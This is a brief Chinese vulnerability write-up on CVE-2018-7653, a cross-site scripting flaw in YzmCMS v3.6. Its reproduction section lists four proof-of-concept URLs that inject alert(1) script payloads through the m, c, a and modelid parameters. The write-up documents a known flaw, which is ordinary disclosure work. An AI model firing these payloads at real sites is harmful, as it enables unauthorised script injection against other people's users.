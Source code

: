 （CVE-2018-7653）YzmCMS v3.6 xss漏洞
====================================

一、漏洞简介
------------

YzmCMS是中国程序员袁志蒙开发的一套开源的CMS（内容管理系统）。 YzmCMS
3.6版本中存在跨站脚本漏洞。远程攻击者可借助'a'、'c'或'm'参数利用该漏洞注入任意的Web脚本或HTML。

二、漏洞影响
------------

YzmCMS v3.6

三、复现过程
------------

### poc

    http://www.0-sec.org/YzmCMS/index.php?m=search&c=index&a=initxqb4n%3Cimg%20src%3da%20onerror%3dalert(1)%3Ecu9rs&modelid=1&q=tes 

    http://www.0-sec.org/YzmCMS/index.php?m=search&c=indexf9q6s%3cimg%20src%3da%20onerror%3dalert(1)%3ej4yck&a=init&modelid=1&q=tes 

    http://www.0-sec.org/YzmCMS/index.php?m=searchr81z4%3cimg%20src%3da%20onerror%3dalert(1)%3eo92wf&c=index&a=init&modelid=1&q=tes 

    http://www.0-sec.org/YzmCMS/index.php?m=search&c=index&a=init&modelid=1b2sgd%22%3e%3cscript%3ealert(1)%3c%2fscript%3eopzx0&q=tes

参考链接
--------

> <https://www.anquanke.com/vul/id/1124944>
